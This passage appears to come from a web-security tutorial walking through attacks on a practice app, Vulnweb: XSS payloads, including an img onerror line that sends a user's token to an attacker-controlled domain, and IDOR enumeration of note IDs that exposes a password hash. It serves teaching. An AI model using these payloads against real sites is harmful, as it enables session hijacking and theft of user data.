 Now lets try to execute JavaScript code with this vulernability:
```html
<script>alert(1)</script>
```

Surprisingly, our JavaScript code was not executed, even though the script tag was interpreted by the browser. Let's try another method instead:
```html
 <img src=x onerror="alert(1)">
```

And voilà! We get the alert popup and have successfully exploited a XSS vulnerability.

Now, displaying alert boxes on peoples browsers doesn't pose a big security threat to the website. So what can we do with this vulnerability, which will increase its impact? We can abuse this vulnerability to steal authentication tokens of logged in users, which will allow us to log in as someone else (also called Session Hijacking). This can be achieved with this code:
```html
  <img src=x onerror="this.src='http://www.my-evil-domain.com/?token='+localStorage.getItem('token');">
```
Here we assume that we, as an attacker, have control over the www.my-evil-domain.com webserver and can view the logs. We can now send the link to this newly created note to our victim and if they click the link, their authentication token will be sent to our webserver and we can use it to log into Vulnweb as their user.

Note that Session Hijacking via XSS is only possible when our JavaScript code is saved in the web application and can be viewed by other users.

We have found our first vulnerability! It doesn't seem to help us in achieving our goal, which is getting access to an admin account, because we don't know any admins on the website. So let's keep looking for other vulnerabilities.

## Insecure Direct Object References (IDOR) / Broken Access Control

Another very common vulnerability in web applications is Insecure Direct Object Reference (IDOR) which falls under the broader term of Broken Access Control. Broken Access Control just means that an application doens't check sufficiently, if a user has access to a requested resource or not. And IDOR works in accessing resources on the application by changing an ID that is supplied by the user to one that doesn't belong to us. If the application doens't prevent us from accessing the data of the new ID, we have ourselves an IDOR vulnerability.

Knowing this, what functionality in our Vulnweb application could be used to test for IDOR?

Viewing a specific note requires us to supply the ID of the note in the URL. This sounds like a perfect candidate for an IDOR vulnerability, so let's test for it. The best way to do this is to create a new user, create a note and write down the ID of the new note. Then log back in to your initial user and try to access the note by changing the URL path variable to the ID you have writte down. The app doesn't prevent you from accessing the note, so you have successfully verified an IDOR vulnerability.

Now that we know we have access to all notes on the web application, we need to find the IDs of existing notes which could potentially contain sensitive data. One way would be to start with ID 1 and go from there until we find an existing ID. The first few tries we will be greeted with a 404 error screen. Once we reach ID 15 we get access to a note containing sensitive data. This note seems to be an export of all the data the website has on this particular user, including ID, username, password hash and his roles.
